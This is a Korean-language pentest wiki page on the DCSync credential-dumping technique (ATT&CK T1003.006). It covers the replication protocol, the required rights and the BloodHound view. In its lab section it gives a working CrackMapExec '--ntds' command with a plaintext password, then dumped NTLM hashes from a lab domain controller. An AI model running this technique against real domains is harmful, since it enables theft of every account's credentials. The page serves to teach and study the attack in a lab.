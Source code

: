 ```yaml
---
description: 'ID: T1003.006 - OS Credential Dumping: DCSync'
---
```


# DCSync

## 개념

도메인 컨트롤러는 윈도우 액티브 디렉토리 도메인 내 사용자 인증 및 권한을 관리하는 중요한 서버다. 너무 중요하기 때문에 대부분의 윈도우 액티브 디렉토리 환경들은 안정성을 위해 도메인 컨트롤러 서버를 두 대 이상 운영하고 있다. 도메인 컨트롤러들은 각자의 액티브 디렉토리 오브젝트 관련 데이터들을 가지고 있고, 사용자 계정등의 경우에는 NTDS.dit 파일들을 각 서버의 파일시스템에 저장하고 있다. 도메인 컨트롤러들은 각자의 도메인 데이터들을 서로 싱크하고 맞추기 위해 MS-DRSR (Directory Replication Service Remote Protocol) 이라는 프로토콜을 사용한다. 그리고 MS-DRSR 프로토콜은 DRSUAPI (Directory Resplication Service) 라는 RPC 인터페이스를 통해 액티브 디렉토리에 적용됐다.

MS-DRSR과 DRSUAPI를 악용할 수 있는 방법은 2015년 8월 Mimikatz 툴에 "DCSync" 라는 기능이 추가되면서 세상에 본격적으로 알려지게 된다. 이 DCSync 라는 기능은 도메인 장악 권한 (도메인 관리자, 엔터프라이즈 관리자, 등)을 가진 상태에서 실행하게 되면 도메인 컨트롤러 머신 계정을 impersonate 한 뒤, DRSUAPI의 `GetNCChanges/DRSGetNCChanges` 함수를 이용해 도메인 내 모든 유저 계정의 계정 정보 (NTDS.dit 파일안의 유저 이름 + NT Hash) 를 받아온다.

Mimikatz가 선보였던 이 "DCSync" 라는 기능은 추후 다른 툴들에게도 적용되어, 오늘날 "DRSUAPI 혹은 MS-DRSR을 이용해 도메인 컨트롤러로부터 도메인 유저 계정 정보를 받아오는" 뜻을 갖게 되었다. 여기서 중요한 점은, DCSync는 공격 방법이나, 익스플로잇이 아니라는 것이다. DCSync는 마이크로소프트사가 적용한 DRSUAPI를 의도한대로 정상적으로 사용할 뿐인 기능이다.



## 사전 조건

내부망 모의해킹 시 DCSync를 사용하려면 현재 장악한 유저 계정이나 머신 계정이 다음과 같은 권한을 도메인 레벨에 가지고 있어야한다. 이 권한들은 모두 ExtendedRights에 해당하는 권한들이다.

1. `DS-Replication-Get-Changes`: Replicating Directory Changes
2. `DS-Replication-Get-Changes-All`: Replicating Directory Changes All
3. 혹은, `GenericAll`

모두 디렉토리의 변경점을 복제하고 싱크하기 위한 권한들이다. 위 권한들을 디폴트로 가지고 있는 액티브 디렉토리 오브젝트들은 다음과 같다.

1. Domain Admins@domain.com
2. Enterprise Admins@domain.com
3. Domain Controllers@domain.com
4. Administrators@domain.com

위 기본적인 오브젝트들이 아니라 `DS-Replication-Get-Changes/All` 권한을 가지고 있는 특정 오브젝트가 있다면, 블러드하운드에서는 아래와 같이 보일 것이다. 대부분 `AllExtendedRights`, `DCSync`, 혹은 `GenericAll` 권한들을 도메인 오브젝트에 가지고 있는 형태로 보인다.&#x20;

<figure><img src="../.gitbook/assets/dcsyncers.PNG" alt=""><figcaption></figcaption></figure>

## 실습

DCSync 권한을 가진 계정을 장악했다면, CrackMapExec, Mimikatz, Invoke-DCSync, SharpKatz 등의 다양한 툴을 이용해 DCSync 기능을 실행한다.

실제 내부망 모의해킹 시 도메인 장악을 끝내고 마지막으로 DCSync를 실행하며 도메인 내 수만명의 계정 정보가 쭉 올라가고 있는 걸 보는 것 만큼 기분 좋은 것이 없다.

```
└─# cme smb 192.168.40.150 -u administrator -p 'Password123!' --ntds                                                                                  
SMB         192.168.40.150  445    DC01             [*] Windows Server 2019 Standard 17763 x64 (name:DC01) (domain:choi.local) (signing:False) (SMBv1:
True)                                                                                                                                                 
SMB         192.168.40.150  445    DC01             [+] choi.local\administrator:Password123! (Pwn3d!)                                         
SMB         192.168.40.150  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...                    
SMB         192.168.40.150  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::          
SMB         192.168.40.150  445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a8f31b642e60b362cc17588df4c5b1e2:::     
SMB         192.168.40.150  445    DC01             choi.local\low:1601:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::    
SMB         192.168.40.150  445    DC01             sqladmin:1603:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::             
SMB         192.168.40.150  445    DC01             choi.local\sqldude:1604:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             choi.local\linuxadmin:1605:aad3b435b51404eeaad3b435b51404ee:f7381d09866c0d678b836bf38b37122a:::   
SMB         192.168.40.150  445    DC01             choi.local\edward:1608:aad3b435b51404eeaad3b435b51404ee:2d769326bbe2798417b8fb6091f3857e:::
SMB         192.168.40.150  445    DC01             choi.local\da:1618:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

[ . . . ]
```

## 실습 - 와이어샤크&#x20;

DCERPC 답게, 먼저 DCSync를 실행하면 Bind 과정을 거져 DRSUAPI 의 RPC 인터페이스들을 본격적으로 찾기 시작한다.&#x20;

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

그 뒤, `DsGetNCChanges` 로 도메인 유저 계정 정보를 받아온 뒤, `DsCrackNames` 로 받아온 데이터를 기본적인 문자열로 다시 포멧한다. 이 과정을 모든 도메인 유저 계정 정보를 받아올 때 까지 계속해서 반복한다.&#x20;

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### 레퍼런스&#x20;

* https://wiki.samba.org/index.php/DRSUAPI
* https://adsecurity.org/?p=1729
* https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10)
* https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10)#ds-replication-get-changes-all
* https://winprotocoldoc.blob.core.windows.net/productionwindowsarchives/MS-DRSR/%5bMS-DRSR%5d.pdf
* https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47
* https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/58f33216-d9f1-43bf-a183-87e3c899c410



